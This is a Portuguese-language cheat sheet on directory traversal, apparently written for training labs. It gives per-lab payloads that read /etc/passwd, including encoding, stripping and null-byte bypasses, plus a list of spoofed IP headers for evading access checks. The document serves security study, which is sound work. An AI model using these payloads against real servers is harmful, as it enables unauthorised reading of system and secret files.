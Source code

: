 # Directory Traversal


Probabilidade: $${\color{red}Alta}$$.

O scanner do Burp provavelmente vai encontrar essa vulnerabilidade, mas de toda forma ela é facilmente identificada.

Em qualquer lugar que esteja lendo arquivos, tente ler `/etc/passwd` ou `/home/carlos/secret`. Provavelmente algum bypass será necessário.

Dê uma olhada no source code para ver da onde as imagens estão sendo carregadas. Colocar imagens para serem exibidas no Filtro do histórico do Burp também ajuda.

![image](https://github.com/user-attachments/assets/6d15780a-66b2-4e7f-babd-4835b8788c3b)

<br>

## Laboratórios

**File Path Traversal, Traversal Sequences Blocked with Absolute Path Bypass**
```
/image?filename=/etc/passwd
```

<br>
<br>

File Path Traversal, Traversal Sequences Stripped Non-Recursively
```
GET /image?filename=....//....//....//etc//passwd

OU

/image?filename=..././..././..././etc/passwd
```

<br>
<br>

**File Path Traversal, Traversal Sequences Stripped with Superfluous URL-Decode**

Encode o payload em URL duas vezes.
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

<br>
<br>

**File Path Traversal, Validation of Start of Path**

```
/image?filename=/var/www/images/../../../../etc/passwd
```

<br>
<br>

**File Path Traversal, Validation of File Extension with Null Byte Bypass**
```
../../../../../../etc/passwd%00.jpg
```

<br>

### Outros

**Path Traversal Auth**

Adicionar alguns headers na requisição pode ajudar a bypassar restrições em requisições vulneráveis a Directory Traversal.
```
X-Custom-IP-Authorization: 127.0.0.1
X-Forwarded-For: localhost
X-Forward-For: localhost
X-Remote-IP: localhost
X-Client-IP: localhost
X-Real-IP: localhost
X-Originating-IP: 127.0.0.1
X-Forwarded: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
X-Original-URL: 127.0.0.1
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1
```
